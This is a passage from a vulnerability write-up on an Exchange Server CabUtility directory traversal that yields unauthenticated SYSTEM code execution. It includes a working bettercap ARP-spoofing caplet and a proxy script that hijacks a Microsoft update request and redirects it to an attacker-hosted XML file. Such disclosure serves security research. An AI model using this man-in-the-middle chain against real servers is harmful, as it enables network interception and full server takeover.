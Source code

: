 ```cs
}
```

At [10] the code calls `Microsoft.Exchange.CabUtility.EmbeddedCabWrapper.ExtractCabFiles` from the `Microsoft.Exchange.CabUtility.dll` which is a mix mode assembly containing native code to extract cab files with the exported function `ExtractCab`. Unfortunately, this parser does not register a callback function before extraction to verify files do not contain a directory traversal. This allowed me to write arbitrary files to arbitrary locations.

## Exploitation

A file write vulnerability does not necessarily mean remote code execution, but in the context of web applications it quite often does. The attack I presented at Pwn2Own wrote to the `C:/inetpub/wwwroot/aspnet_client` directory and that allowed me to make a http request for the shell to execute arbitrary code as SYSTEM without authentication.

Let us review the setup so we can visualize the attack.

### Setup

The first step will require you to perform an ARP spoof against the target system. For this stage I choose to use [bettercap](https://www.bettercap.org/), which allows you to define caplets that can automate itself. I think the last time I did a targeted MiTM attack was about *12* years ago! Here is the contents of my `poc.cap` file which sets up the ARP spoof and a proxy script to intercept and respond to specific http requests:

```
set http.proxy.script poc.js
http.proxy on
set arp.spoof.targets 192.168.0.142
events.stream off
arp.spoof on
```

The `poc.js` file is the proxy script that I wrote to intercept the targets request and redirect it to the attackers hosted configuration file at `http://192.168.0.56:8000/poc.xml`.

```js
function onLoad() {
    log_info("Exchange Server CabUtility ExtractCab Directory Traversal Remote Code Execution Vulnerability")
    log_info("Found by Steven Seeley of Source Incite")
}

function onRequest(req, res) {
    log_info("(+) triggering mitm");
    var uri = req.Scheme + "://" +req.Hostname + req.Path + "?" + req.Query;
    if (uri === "http://go.microsoft.com/fwlink/p/?LinkId=287244"){
        res.Status = 302;
        res.SetHeader("Location", "http://192.168.0.56:8000/poc.xml");
    }
}
```
